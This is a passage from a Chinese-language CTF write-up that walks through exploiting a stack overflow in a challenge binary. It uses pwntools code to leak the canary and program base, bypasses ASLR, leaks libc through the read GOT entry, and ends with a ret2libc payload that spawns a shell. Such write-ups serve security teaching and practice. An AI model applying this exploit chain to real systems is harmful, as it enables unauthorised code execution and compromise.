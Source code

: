 注意这里覆盖的是 canary 的低位字节，恢复时需要注意默认的小端法表示。

接下来，我们要泄露程序基址以绕过 ASLR。这里可以泄露 `vul` 函数返回地址，减去其偏移量 `0xd2e` 来得到。

```python
# leak elf base
send('a'*615)
base = u64(p.recv(6).ljust(8,'\x00')) - 0xd2e
log.success('base:' + hex(base))
ret2main()
```

发送 `'a'*615` 加上最后的回车实际上是 616 字节，恰好覆盖了 canary 和 saved ebp，接下来打印的就是返回地址。这一步做完后用同样的办法返回 `main`。

第三次，我们已经绕过 canary 和 ASLR，需要泄露 `libc` 地址，由于这里有 `puts` 函数，直接按照常规的 `ret2libc` 方法即可。这里采用了泄露 `read` 函数 GOT 地址的方法。

```python
def ret2libc(leak, func):
    libc = LibcSearcher(func, leak)

    base = leak - libc.dump(func)
    system = base + libc.dump('system')
    binsh = base + libc.dump('str_bin_sh')
    return (system, binsh)

# leak libc
pop_rdi = 0xe03
main = 0xd20
payload = flat(['a'*600,canary,'a'*8,base+pop_rdi,base+elf.got['read'],base+elf.plt['puts'],base+main])
send(payload)

payload = flat('a'*600,canary,'a'*8,base+pop_rdi)
p.recvuntil('624)\n')
p.send(payload)
read = u64(p.recv(6).ljust(8,'\x00'))
log.success('read:' + hex(read))
system, binsh = ret2libc(read,'read')
```

尤其需要注意，第二次输入长度不能超过 `0x270` 也就是 `624`，这里构造的 payload 恰好长度为 624，因此只能用 `p.send()` 不能 `p.sendline()`，否则会多出一个 `0a` 字节使程序终止。

最后就可以 getshell 了：

```python
# get shell
payload = flat('a'*600,canary,'a'*8,base+pop_rdi,binsh,system)
send(payload)
p.sendlineafter('624)\n','a')

p.interactive()
```
